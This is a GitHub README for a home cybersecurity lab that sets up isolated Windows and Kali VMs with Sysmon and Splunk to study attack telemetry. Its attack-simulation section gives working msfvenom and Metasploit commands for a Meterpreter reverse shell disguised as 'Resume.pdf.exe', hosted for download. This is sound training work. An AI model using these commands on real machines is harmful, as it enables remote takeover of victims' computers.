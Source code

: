 # Home Lab for Cybersecurity Research

This repository contains a structured home lab environment for analyzing malware behavior, testing security tools, and understanding telemetry data in a controlled, sandboxed setup. The goal is to simulate real-world attack scenarios and improve threat-hunting skills.

## 📌 Overview
This home lab allows:
- Safe execution of malware and tools in an isolated environment.
- Observing how attacks operate on targeted machines.
- Capturing and analyzing telemetry data using Sysmon and Splunk.
- Configuring an internal network to prevent external exposure.

## 🏗️ Virtual Environment Setup
### 1️⃣ Virtualization Software
Choose from one of the following:
- **VMware Workstation Pro** (Recommended)
- Microsoft Hyper-V
- Oracle VirtualBox
- Windows Sandbox

## 🔧 Setting Up Virtual Machines
### 🖥️ Windows OS Installation
1. Download Windows ISO using the [Media Creation Tool](https://www.microsoft.com/en-us/software-download/windows10).
2. Configure VM:
   - RAM: **2GB**
   - Storage: **60GB**
   - CPU: **1 Processor**
3. Complete the installation and take an initial **snapshot**.

### 🐧 Kali Linux Installation
1. Download the Kali Linux VM image from [Kali Downloads](https://www.kali.org/get-kali/#kali-virtual-machines).
2. Extract the `.7z` file using [7-Zip](https://7-zip.org/).
3. Configure VM:
   - RAM: **2GB** (Minimum)
   - Storage: **60GB**
   - CPU: **1 Processor**
4. Login Credentials:
   - Username: **kali**
   - Password: **kali**
5. Take a **snapshot** after installation.

## 🌐 Network Configuration
To ensure an isolated testing environment:
- Change network settings to **Internal Network** using **LAN Segment**.
- Assign **static IPs** to both Windows and Kali machines.

**Windows Static IP Setup:**
1. Navigate to: `Settings -> Network & Internet -> Change Adapter Options`
2. Configure IPv4 with:
   - IP: `192.168.X.X`
   - Subnet Mask: `/24 (255.255.255.0)`
   - Gateway: *Leave blank*

**Kali Linux Static IP Setup:**
1. Edit network connections and assign a static IP in the `192.168.X.X` range.
2. Confirm with `ifconfig`.
3. Test connectivity using `ping` between both machines.

## 🔍 Security Monitoring Tools Setup
### 📑 Install Sysmon for Windows Event Logging
1. Download [Sysmon](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon).
2. Use a preconfigured [Sysmon Config File](https://github.com/Tagurkrishna/SOC-Automation-Project/blob/main/Sysmon-Install).
3. Install Sysmon using:
   ```powershell
   .\sysmon64.exe -i sysmonconfig.xml
   ```
4. Verify installation in:
   - **Windows Services** (`services.msc` → Find `Sysmon`)
   - **Event Viewer** (`Microsoft -> Windows -> Sysmon`)

### 📊 Install & Configure Splunk for Log Analysis
1. Download [Splunk Enterprise](https://www.splunk.com/en_us/download/splunk-enterprise.html) and install it.
2. Configure log ingestion:
   - Edit `inputs.conf` file:
     ```
     [WinEventLog://Microsoft-Windows-Sysmon/Operational]
     index = endpoint
     disabled = false
     renderXml = true
     source = XmlWinEventLog:Microsoft-Windows-Sysmon/Operational
     ```
   - Restart Splunk services.
   - Create an index named **endpoint**.
3. Install **Splunk Add-on for Sysmon**.

## 🛠️ Attack Simulation: Generating Malware & Telemetry Data
### 🔥 Port Scanning with Nmap
1. On Kali, check available commands:
   ```bash
   nmap -h
   ```
2. Scan Windows OS:
   ```bash
   nmap -A "Windows_IP" -Pn
   ```
   - `-A`: Enables OS detection, version detection, and scripts.
   - `-Pn`: Skips ping check.

### 🦠 Creating Malware (Meterpreter Reverse Shell)
1. Generate a payload on Kali:
   ```bash
   msfvenom -p windows/x64/meterpreter_reverse_tcp lhost="Kali_IP" lport=4444 -f exe -o Resume.pdf.exe
   ```
2. Start Metasploit Framework:
   ```bash
   msfconsole
   ```
3. Set up a listener:
   ```bash
   use exploit/multi/handler
   set payload windows/x64/meterpreter_reverse_tcp
   set lhost Kali_IP
   exploit
   ```
4. Host the malware for download:
   ```bash
   python3 -m http.server 9999
   ```
5. On Windows, download and execute the file.
6. Check active network connections:
   ```powershell
   netstat -anob
   ```

## 📊 Telemetry Analysis in Splunk
1. Search logs in Splunk:
   ```
   index=endpoint
   ```
2. Check Sysmon events:
   ```
   index=endpoint process guid
   | table _time,ParentImage,Image,CommandLine
   ```
3. Review telemetry logs and detect malicious activity.

## 🏁 Conclusion
This home lab provides a hands-on approach to understanding:
- Malware behavior and attack execution.
- Network isolation for security research.
- Detection and log analysis using Sysmon and Splunk.
- Real-world incident response techniques.

This setup can be extended to analyze different types of malware, test new security tools, and improve threat-hunting methodologies.

---
🔹 **Author:** [Tagurkrishna](https://github.com/Tagurkrishna)
🔹 **Portfolio Repository:** [SOC Automation Project](https://github.com/Tagurkrishna/SOC-Automation-Project)
